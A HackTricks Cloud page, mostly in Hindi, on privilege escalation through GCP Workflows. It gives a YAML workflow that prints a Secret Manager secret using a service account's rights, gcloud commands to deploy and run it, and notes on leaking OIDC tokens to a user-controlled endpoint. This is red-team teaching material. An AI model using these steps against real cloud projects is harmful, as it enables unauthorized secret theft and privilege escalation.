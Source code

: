 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

बुनियादी जानकारी:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

मेरी जानकारी के अनुसार, यह संभव नहीं है कि एक शेल प्राप्त किया जा सके जिसमें उस मेटाडेटा एंडपॉइंट तक पहुंच हो जिसमें उस वर्कफ़्लो से जुड़े SA के क्रेडेंशियल्स हों। हालाँकि, वर्कफ़्लो के भीतर प्रदर्शन करने के लिए क्रियाएँ जोड़कर SA की अनुमतियों का दुरुपयोग करना संभव है।

कनेक्टर्स की दस्तावेज़ीकरण ढूंढना संभव है। उदाहरण के लिए, यह [**Secretmanager कनेक्टर का पृष्ठ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)** है।** साइड बार में कई अन्य कनेक्टर्स मिल सकते हैं।

और यहाँ आप एक कनेक्टर का उदाहरण देख सकते हैं जो एक रहस्य प्रिंट करता है:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI से अपडेट:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
यदि आपको `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` जैसी त्रुटि मिलती है, तो बस **एक मिनट प्रतीक्षा करें और फिर से प्रयास करें**।

यदि आपके पास वेब एक्सेस नहीं है, तो एक वर्कफ़्लो को ट्रिगर करना और उसकी कार्यान्वयन को देखना संभव है:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
आप पिछले निष्पादन के आउटपुट की जांच भी कर सकते हैं ताकि संवेदनशील जानकारी की तलाश की जा सके
{% endhint %}

ध्यान दें कि भले ही आपको `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` जैसी त्रुटि मिले क्योंकि आपके पास वह अनुमति नहीं है, कार्यप्रवाह उत्पन्न हो चुका है।

### OIDC टोकन लीक (और OAuth?)

[**दस्तावेज़ों के अनुसार**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) यह संभव है कि कार्यप्रवाह के चरणों का उपयोग किया जाए जो OAuth या OIDC टोकन के साथ HTTP अनुरोध भेजेंगे। हालाँकि, [Cloud Scheduler](gcp-cloudscheduler-privesc.md) के मामले की तरह, Oauth टोकन के साथ HTTP अनुरोध को होस्ट `.googleapis.com` पर होना चाहिए।

{% hint style="danger" %}
इसलिए, **उपयोगकर्ता द्वारा नियंत्रित HTTP एंडपॉइंट** को इंगित करके OIDC टोकन लीक करना **संभव है**, लेकिन **OAuth** टोकन लीक करने के लिए आपको उस सुरक्षा के लिए **बायपास** की आवश्यकता होगी। हालाँकि, आप अभी भी **SA की ओर से कार्य करने के लिए किसी भी GCP API से संपर्क कर सकते हैं** या तो कनेक्टर्स या OAuth टोकन के साथ HTTP अनुरोधों का उपयोग करके।
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

इस अनुमति के साथ `workflows.workflows.create` के बजाय, एक पहले से मौजूद वर्कफ़्लो को अपडेट करना और समान हमले करना संभव है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
